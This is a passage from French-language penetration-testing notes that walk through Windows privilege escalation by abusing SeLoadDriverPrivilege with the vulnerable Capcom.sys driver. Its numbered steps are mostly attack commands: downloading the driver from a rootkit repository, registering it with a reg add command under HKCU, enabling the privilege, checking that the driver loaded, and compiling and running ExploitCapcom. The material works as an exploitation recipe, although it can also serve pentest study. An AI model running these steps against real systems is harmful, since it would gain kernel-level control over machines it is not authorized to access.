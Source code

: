 ### 4. Télécharger https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys et l'enregistrer dans C:\Temp


### 5. Référencer le driver sous HKCU\System\CurrentControlSet\CAPCOM

```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Temp\Capcom.sys"
```

### 6. Vérifier que le driver n'est pas chargé

https://www.nirsoft.net/utils/driverview.html

```powershell
.\DriverView.exe /stext drivers.txt
```

```powershell
cat drivers.txt | Select-String -pattern Capcom
```

### 7. Vérifier que le privilège est activé 

```cmd
.\EnableSeLoadDriverPrivilege.exe
```

### 8. Vérifier que le driver Capcom est bien chargé

```powershell
.\DriverView.exe /stext drivers.txt
```

```powershell
cat drivers.txt | Select-String -pattern Capcom
```

### 9. Compiler ExploitCapcom

https://github.com/tandasat/ExploitCapcom

### 10. Lancer l'Exploit

```powershell
.\ExploitCapcom.exe
```

## EnableSeLoadDriverPrivilege (NO-GUI)

https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp

### 1. Télécharger le cpp -> https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp
